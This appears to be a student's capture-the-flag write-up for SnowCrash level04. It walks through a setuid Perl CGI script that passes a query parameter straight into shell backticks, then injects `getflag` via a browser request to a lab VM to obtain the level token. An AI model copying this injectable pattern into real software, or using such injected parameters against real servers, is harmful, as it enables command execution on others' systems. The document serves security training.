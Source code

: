 For this level as usual we can do a basic "ls -l" command, and we something similar to previous level
The level04.pl file is owned by flag04.
So user level04 can execute it as flag04.

	level04@SnowCrash:~$ ls -l
	total 4
	-rwsr-sr-x 1 flag04 level04 152 Mar  5  2016 level04.pl

We can already tell that this is a pearl script by this .pl extension.
Now we need to understand what does this program.

level04@SnowCrash:~$ ./level04.pl
Content-type: text/html


	level04@SnowCrash:~$ cat level04.pl
	#!/usr/bin/perl
	# localhost:4747 							tell use that we need to use port 4747.
	use CGI qw{param};							The CGI module is used to handle web requests and responses, and param is used to 
												retrieve parameters passed via the query string or form data.
	print "Content-type: text/html\n\n";
	sub x {
	  $y = $_[0];								in pearl the @_ array store the first argument.
	  print `echo $y 2>&1`;
	}
	x(param("x"));

To resume this script run on a web server. 
It listens for an HTTP request, extracts a parameter from the query string,
and then executes a system command based on that parameter.

This script is highly vulnerable to command injection.
Since it directly passes user input to the shell without any sanitization

Then when we do this request on our browser "http://192.168.1.11:4747/level04.pl?x=`getflag`".
(192.168.1.11 is the ip address of my VM right now, not going to be the same on the evaluation)

We get this response "Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap"
